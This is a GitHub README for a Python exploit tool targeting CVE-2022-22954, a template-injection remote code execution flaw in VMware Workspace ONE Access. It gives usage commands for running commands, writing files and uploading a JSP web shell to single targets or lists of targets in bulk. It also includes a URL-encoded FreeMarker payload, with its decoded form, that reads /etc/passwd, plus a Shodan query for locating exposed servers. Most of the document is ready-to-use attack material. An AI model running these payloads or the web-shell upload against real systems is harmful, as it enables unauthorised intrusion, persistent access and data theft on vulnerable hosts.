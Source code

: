 # CVE-2022-22954
VMware Workspace ONE Access SSTI (RCE)
&nbsp;

## Usage
```bash
// Single target vulnerability detection
python CVE-2022-22954.py -u https://x.x.x.x

// Command execution
python CVE-2022-22954.py -u https://x.x.x.x -c "id"

// Write file
python CVE-2022-22954.py -u https://x.x.x.x -fn test.jsp  -fc "test"

// Upload a file, Windows needs to specify the path to set the file name
python CVE-2022-22954.py -u https://x.x.x.x -fn test.jsp  -fp "D:\Desktop\shell.jsp"

// Upload to the specified path
python CVE-2022-22954.py -u https://x.x.x.x -fn "/opt/vmware/horizon/workspace/webapps/catalog-portal/test.jsp"  -fp "D:\Desktop\shell.jsp"

// Batch detection, consistent usage
python CVE-2022-22954.py -f url.txt
python CVE-2022-22954.py -f url.txt -c "id" -t 200
python CVE-2022-22954.py -f url.txt -fn test.jsp  -fc "test" -t 200
python CVE-2022-22954.py -f url.txt -fn test.jsp  -fp "D:\Desktop\shell.jsp" -t 200
python CVE-2022-22954.py -f url.txt -fn "/opt/vmware/horizon/workspace/webapps/catalog-portal/test.jsp"  -fp "D:\Desktop\shell.jsp" -t 200
```
&nbsp;

## POC
Use following GET request to execute ```cat /etc/passwd``` command.
```
TARGET.COM/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d
 ```
 ```
 Decoded Payload:
 ${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}
 ```
Video:
 [![Watch the video](./CVE-2022-22954-poc.png)](https://www.youtube.com/watch?v=YVIW-uKgvPI)
&nbsp;

## Shodan Query:
```
http.favicon.hash:-1250474341 
```
&nbsp;

## Nuclei Template:
[CVE-2022-22954.yaml](https://github.com/NafisiAslH/KnowledgeSharing/blob/main/CyberSecurity/Web/CVEs/CVE-2022-22954/CVE-2022-22954.yaml)
</br>&nbsp;

## Credit
[sherlocksecurity](https://github.com/sherlocksecurity/VMware-CVE-2022-22954)'s github page.</br>
[MLX15](https://github.com/MLX15/CVE-2022-22954)'s github page.</br>
[Punit Darji](https://www.youtube.com/watch?v=YVIW-uKgvPI)'s youtube video.</br>
</br>&nbsp;

## Support
You can Follow [me](https://twitter.com/iamfuche) on twitter or buy me a [Coffee](https://buymeacoffee.com/iamfuche)
